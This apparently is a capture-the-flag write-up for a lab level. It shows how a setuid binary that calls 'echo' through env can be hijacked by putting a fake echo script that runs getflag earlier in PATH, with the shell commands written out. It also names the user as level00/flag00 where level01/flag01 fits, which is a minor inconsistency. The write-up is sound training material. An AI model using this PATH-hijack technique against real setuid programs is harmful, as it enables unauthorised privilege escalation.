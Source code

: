 ### Level 01

```system("/usr/bin/env echo and now what?");```  
The line above executes ```/usr/bin/env echo and now what?``` in the host environment and returns.  

Looking at the permissions of ```/home/flag01/flag01``` you can notice that the file has the ```setuid``` bit set.  
This means that after we (user ```level00```) run this executable, it is going to run with the file system permissions of the owner
(user ```flag00``` ).

We can "switch" then the ```echo``` with our own version of ```echo``` which is going to execute ```getflag```(with the permissions of ```flag01```):

```
mkdir /home/level01/bin  

echo '#!/bin/bash  
getflag' > /home/level01/bin/echo

chmod +x /home/level01/bin/echo
```
We add our newly created directory to PATH ```PATH=/home/level01/bin:$PATH```    
  
We execute ```/home/flag01/flag01``` and we're done.